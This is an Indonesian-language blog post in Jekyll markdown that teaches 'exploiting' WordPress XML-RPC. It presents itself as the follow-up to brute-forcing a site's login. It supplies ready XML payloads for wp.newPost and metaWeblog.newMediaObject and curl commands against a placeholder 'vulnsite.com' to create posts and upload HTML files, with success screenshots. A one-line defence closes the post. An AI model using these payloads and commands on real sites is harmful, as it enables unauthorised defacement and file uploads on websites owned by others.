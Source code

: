 ```yaml
---
layout: post
title: "Exploiting XML-RPC API pada WordPress"
image: "https://1.bp.blogspot.com/-WpYnpcfB0yE/YK60vej5LxI/AAAAAAAAAx4/7JctMR21Io8Q_Lnpxxkw3YAU6atD-u0ZQCLcBGAsYHQ/s720/thumbnail.png"
tags: tutorial, exploit, hacking
category: exploit
description: Vulnerability pada XML-RPC bukan hanya BruteForce saja...
comments: true
fullview: false
---
```

<!-- excerpt-start --><img src="https://1.bp.blogspot.com/-WpYnpcfB0yE/YK60vej5LxI/AAAAAAAAAx4/7JctMR21Io8Q_Lnpxxkw3YAU6atD-u0ZQCLcBGAsYHQ/s720/thumbnail.png"><br><br>
Vulnerability pada XMLRPC / tahap setelah BruteForce / alternatif jika gagal login ke /wp-admin/ (403/404/500)


     1. Add Post (Menambahkan Postingan)
Menambahkan Postingan Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addpost.xml

Lalu isikan dengan exploit berikut: 



<textarea style="background-color:black;color:lime;" rows="10" cols="45" readonly>&lt;?xml version=&quot;1.0&quot;?&gt; &lt;methodCall&gt;
&lt;methodName&gt;wp.newPost&lt;/methodName&gt; &lt;params&gt;
        &lt;param&gt;&lt;value&gt;parameter&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuser&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuserpassword&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;struct&gt;
                &lt;member&gt;&lt;name&gt;post_title&lt;/name&gt;&lt;value&gt;Exploit To Add Post with XML-RPC&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_content&lt;/name&gt;&lt;value&gt;Seems Like The Site Was Vulnerable!&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_excerpt&lt;/name&gt;&lt;value&gt;excerpt&lt;/value&gt;&lt;/member&gt;
        &lt;/struct&gt;&lt;/param&gt; &lt;/params&gt;</textarea>
 Saatnya mengexploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addpost.xml

Jika sukses akan tampil seperti ini:

<img src="https://1.bp.blogspot.com/-3_VxUe-b2hI/YK6ws0-YhhI/AAAAAAAAAxY/Gse9CgoAhNoQxqs4a8pVU89yi1yZTzI8QCLcBGAsYHQ/s720/xmlrpc1.png">

Angka 6 adalah id postnya

Cara melihat postingannya dengan menambahkan ?p=idpostingan 

Contoh: http://vulnsite.com/?p=6

<img src="https://1.bp.blogspot.com/-6xYsoswPrT4/YK6xZ3-brfI/AAAAAAAAAxg/oNfoSh3dcuw1X5kMnbbdv7pSJbtQhiFtQCLcBGAsYHQ/s1280/Screenshot_20210527-030808.jpg">

Post Sukses Dibuat.



     2. Add Media/File (Menambahkan Media/File)


Menambahkan Media atau File Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addfile.xml

Lalu isikan dengan exploit berikut: 



<textarea style="background-color:black;color:lime;" rows="10" cols="45" readonly>&lt;?xml version="1.0"?&gt; &lt;methodCall&gt;
&lt;methodName&gt;metaWeblog.newMediaObject&lt;/methodName&gt; &lt;params&gt;
        &lt;param&gt;&lt;value&gt;parameter&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuser&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuserpassword&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;struct&gt;
                &lt;member&gt;&lt;name&gt;name&lt;/name&gt;&lt;value&gt;touched.html&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;type&lt;/name&gt;&lt;value&gt;text/plain&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;bits&lt;/name&gt;&lt;value&gt;
                &lt;![CDATA[&lt;h1&gt;&lt;center&gt;File Uploaded Success&lt;br/&gt;XML-RPC add file exploit&lt;/center&gt;&lt;/h1&gt;]]&gt;
&lt;/value&gt;&lt;/member&gt;
        &lt;/struct&gt;&lt;/param&gt; &lt;/params&gt;
&lt;/methodCall&gt;</textarea>


Exploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addfile.xml

Jika sukses akan tampil seperti ini:

<img src="https://1.bp.blogspot.com/-74YKRVD53CY/YK6zLpjtssI/AAAAAAAAAxo/U2fWlh3r3_wVvQBgRZYNgXWesfOAgH5tgCLcBGAsYHQ/s720/xmlrpc2.png">

File sukses disimpan sesuai dengan nama yg telah ditentukan, di sini saya namakan filenya touched.html

Cara melihat hasil file yg tersimpan:

http://vulnsite.com/wp-content/uploads/2021(tahun saat upload)/05(bulan saat upload/namafile.html

Mari kita cek!:

<img src="https://1.bp.blogspot.com/-MjLsBrWYg8s/YK60B9YBacI/AAAAAAAAAxw/eBxv4TcpIJM0YRAfG8MzRjOIYflWOZfYwCLcBGAsYHQ/s1280/Screenshot_20210527-031736.jpg">

File sukses terupload!



Cara mencegah exploit ini adalah dengan menginstall plugin bernama "Disable XML-RPC" lalu aktifkan, dan xmlrpc akan aman.



Sekian dari saya, semoga berguna dan bermanfaat!



